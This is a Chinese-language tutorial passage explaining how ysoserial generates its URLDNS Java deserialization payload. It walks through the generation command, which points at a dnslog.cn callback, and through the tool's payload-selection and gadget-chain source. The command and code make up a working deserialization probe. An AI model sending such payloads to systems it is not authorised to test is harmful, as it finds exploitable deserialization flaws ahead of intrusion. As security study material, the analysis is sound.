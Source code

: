 首先，先来看一下我们生成URLDNS payload的命令。

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://t7xvva.dnslog.cn" > urldns.ser
```

共指定了两个参数，URLDNS是对应利用链的名称，后面的dnslog地址是对应的参数。我们看ysoserial是怎么帮我们生成序列化文件的。



当使用`java -jar`运行ysoserial时，实际上运行的是`GeneratePayload`类的main方法，该方法调用了`Utils.getPayloadClass`利用反射创建了我们传入的URLDNS对应的类的对象。然后调用`getObject`方法获取到利用链需要被反序列化的对象。之后将对象反序列化之后输出。

```java
final Class<? extends ObjectPayload> payloadClass = Utils.getPayloadClass(payloadType);
if (payloadClass == null) {
  System.err.println("Invalid payload type '" + payloadType + "'");
  printUsage();
  System.exit(USAGE_CODE);
  return; // make null analysis happy
}

try {
  final ObjectPayload payload = payloadClass.newInstance();
  final Object object = payload.getObject(command);
  PrintStream out = System.out;
  Serializer.serialize(object, out);
  ObjectPayload.Utils.releasePayload(payload, object);
```

在`Utils.getPayloadClass`方法中，利用反射创建我们传入的类的类对象。如果传入的是完整的类名，则直接创建类对象。如果传入的不是完整类名，则去`payloads`包中寻找，我们传入的URLDNS不是完整的类名，因此对应`ysoserial.payloads.URLDNS`类。

```java
public static Class<? extends ObjectPayload> getPayloadClass ( final String className ) {
  Class<? extends ObjectPayload> clazz = null;
  try {
    clazz = (Class<? extends ObjectPayload>) Class.forName(className);
  }
  catch ( Exception e1 ) {}
  if ( clazz == null ) {
    try {
      return clazz = (Class<? extends ObjectPayload>) Class
        .forName(GeneratePayload.class.getPackage().getName() + ".payloads." + className);
    }
    catch ( Exception e2 ) {}
  }
  if ( clazz != null && !ObjectPayload.class.isAssignableFrom(clazz) ) {
    clazz = null;
  }
  return clazz;
}
```

我们重点来看URLDNS类的getObject方法。这个方法十分的简单，是ysoserial中最简单的利用链了。

```java
public Object getObject(final String url) throws Exception {

  URLStreamHandler handler = new SilentURLStreamHandler();

  HashMap ht = new HashMap(); 
  URL u = new URL(null, url, handler); 
  ht.put(u, url); 

  Reflections.setFieldValue(u, "hashCode", -1); 
  return ht;
}
```
